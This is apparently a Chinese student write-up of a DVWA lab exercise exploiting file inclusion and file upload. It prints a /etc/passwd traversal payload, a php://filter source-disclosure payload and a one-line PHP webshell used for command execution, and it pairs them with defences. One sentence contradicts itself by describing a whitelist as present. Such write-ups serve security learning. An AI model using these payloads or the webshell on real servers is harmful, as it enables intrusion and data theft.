


# DVWA-WebShell（文件包含与文件上传）

## 1、漏洞复现过程
### 1.1 文件包含（File Inclusion）
- **任意文件读取**：修改 URL 参数`?page=/etc/passwd`，成功读取系统用户文件
- **伪协议读源码**：使用`?page=php://filter/read=convert.base64-encode/resource=index.php`，将网页源码 Base64 编码后打印出来，解码后成功获取后端代码逻辑

### 1.2 文件上传（File Upload）
- **制作木马**：在本地新建`shell.php`，内容为`<?php system($_GET['cmd']);?>`
- **上传文件**：在网页上传该文件，回显路径为`../../hackable/uploads/shell.php`
- **命令执行**：浏览器访问`http://192.168.184.129/hackable/uploads/shell.php?cmd=whoami`，成功回显`www-data`。实现任意系统命令执行（RCE）

## 2、漏洞原理
- **文件包含**：后端对`page`参数做白名单限制，允许使用`../`目录穿越或特殊伪协议读取任意文件
- **文件上传**：后端未校验上传文件的类型（MIME、后缀），导致恶意 PHP 脚本被直接上传到 Web 可访问目录并被执行

## 3、危害与防御
- **危害**：直接获取服务器控制权（WebShell），导致数据泄露、服务器被控、甚至作为跳板攻击内网
- **防御建议**：
	- 文件包含：使用固定白名单，禁止外部输入决定加载路径
	- 文件上传：检查文件内容（重写图片渲染）、重命名文件、将上传目录与 Web 执行目录分离（取消该目录的 PHP 执行权限）

## 4、心得感悟
“数据与代码未分离”依然是核心。文件上传漏洞让我真正拿到了系统的执行权限。以后在开发中，面对用户上传的文件，必须保持极度警惕，绝不能让它成为执行代码的入口